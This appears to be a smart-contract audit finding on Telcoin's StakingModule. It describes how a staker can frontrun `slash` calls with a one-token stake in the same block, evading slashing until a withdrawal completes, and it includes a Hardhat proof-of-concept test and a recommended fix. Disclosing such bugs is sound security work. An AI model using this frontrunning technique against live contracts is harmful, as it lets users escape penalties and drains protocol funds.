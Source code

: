 Tricko

medium

# `slash` calls can be blocked, allowing malicious users to bypass the slashing mechanism.

## Summary
A malicious user can block slashing by frontrunning `slash` with a call to `stake(1)` at the same block, allowing him to keep blocking calls to `slash` while waiting for his withdraw delay, effectively bypassing the slashing mechanism.

## Vulnerability Detail
`StakingModule`'s `checkpointProtection` modifier reverts certain actions, like claims, if the accounts' stake was previously modified in the same block. A malicious user can exploit this to intentionally block calls to `slash`.

Consider the following scenario, where Alice has `SLASHER_ROLE` and Bob is the malicious user.
1. Alice calls `slash` on Bob's account.
2. Bob sees the transaction on the mempool and tries to frontrun it by staking 1 TEL.
(See Proof of Concept section below for a simplified example of this scenario)

If Bob stake call is processed first (he can pay more gas to increase his odds of being placed before than Alice), his new stake is pushed to `_stakes[address(Bob)]`, and his latest checkpoint (`_stakes[address(Bob)]._checkpoints[numCheckpoints - 1]`) `blockNumber` field is updated to the current `block.number`. So when `slash` is being processed in the same block and calls internally `_claimAndExit` it will revert due to the `checkpointProtection` modifier check (See code snippet below).

```javascript
modifier checkpointProtection(address account) {
    uint256 numCheckpoints = _stakes[account]._checkpoints.length;
    require(numCheckpoints == 0 || _stakes[account]._checkpoints[numCheckpoints - 1]._blockNumber != block.number, "StakingModule: Cannot exit in the same block as another stake or exit");
    _;
}
```
Bob can do this indefinitely, eventually becoming a gas war between Alice and Bob or until Alice tries to use Flashbots Protect or similar services to avoid the public mempool. More importantly, this can be leverage to block all `slash` attempts while waiting the time required to withdraw, so the malicious user could call `requestWithdrawal()`, then keep blocking all future `slash` calls while waiting for his `withdrawalDelay`, then proceed to withdraws his stake when `block.timestamp > withdrawalRequestTimestamps[msg.sender] + withdrawalDelay`. Therefore bypassing the slashing mechanism.

In this modified scenario 
1. Alice calls `slash` on Bob's account.
2. Bob sees the transaction on the mempool and tries to frontrun it by staking 1 TEL.
3. Bob requests his withdraw (`requestWithdrawal()`)
4. Bob keeps monitoring the mempool for future calls to `slash` against his account, trying to frontrun each one of them.
5. When enough time has passed so that his withdraw is available, Bob calls `exit` or `fullClaimAndExit`

## Impact
Slashing calls can be blocked by malicious user, allowing him to request his withdraw, wait until withdraw delay has passed (while blocking further calls to `slash`) and then withdraw his funds.

Classify this one as medium severity, because even though there are ways to avoid being frontrunned, like paying much more gas or using services like Flashbots Protect, none is certain to work because the malicious user can use the same methods to their advantage.  And if the malicious user is successful, this would result in loss of funds to the protocol (i.e funds that should have been slashed, but user managed to withdraw them)

## Proof of Concept
The POC below shows that staking prevents any future call to `slash` on the same block. To reproduce this POC just copy the code to a file on the test/ folder and run it.
```javascript
const { expect } = require("chai")
const { ethers, upgrades } = require("hardhat")

const emptyBytes = []

describe("POC", () => {
  let deployer
  let alice
  let bob
  let telContract
  let stakingContract
  let SLASHER_ROLE

  beforeEach("setup", async () => {
    [deployer, alice, bob] = await ethers.getSigners()

    //Deployments
    const TELFactory = await ethers.getContractFactory("TestTelcoin", deployer)
    const StakingModuleFactory = await ethers.getContractFactory(
      "StakingModule",
      deployer
    )
    telContract = await TELFactory.deploy(deployer.address)
    await telContract.deployed()
    stakingContract = await upgrades.deployProxy(StakingModuleFactory, [
      telContract.address,
      3600,
      10
    ])

    //Grant SLASHER_ROLE to Alice
    SLASHER_ROLE = await stakingContract.SLASHER_ROLE()
    await stakingContract
      .connect(deployer)
      .grantRole(SLASHER_ROLE, alice.address)

    //Send some TEL tokens to Bob
    await telContract.connect(deployer).transfer(bob.address, 1)

    //Setup approvals
    await telContract
      .connect(bob)
      .approve(stakingContract.address, 1)
  })

  describe("POC", () => {
    it("should revert during slash", async () => {
      //Disable auto-mining and set interval to 0 necessary to guarantee both transactions
      //below are mined in the same block, reproducing the frontrunning scenario.
      await network.provider.send("evm_setAutomine", [false]);
      await network.provider.send("evm_setIntervalMining", [0]);

      //Bob stakes 1 TEL
      await stakingContract
        .connect(bob)
        .stake(1)

      //Turn on the auto-mining, so that after the next transaction is sent, the block is mined.
      await network.provider.send("evm_setAutomine", [true]);
      
      //Alice tries to slash Bob, but reverts.
      await expect(stakingContract
        .connect(alice)
        .slash(bob.address, 1, stakingContract.address, emptyBytes)).to.be.revertedWith(
          "StakingModule: Cannot exit in the same block as another stake or exit"
        )
    })
  })
})
```

## Code Snippet

https://github.com/sherlock-audit/2023-02-telcoin/blob/main/telcoin-audit/contracts/staking/StakingModule.sol#L109-L113

https://github.com/sherlock-audit/2023-02-telcoin/blob/main/telcoin-audit/contracts/staking/StakingModule.sol#L510-L513

https://github.com/sherlock-audit/2023-02-telcoin/blob/main/telcoin-audit/contracts/staking/StakingModule.sol#L460-L483

## Tool used
Manual Review

## Recommendation
Consider implementing a specific version of `_claimAndExit` without the `checkpointProtection` modifier, to be used inside the `slash` function. 
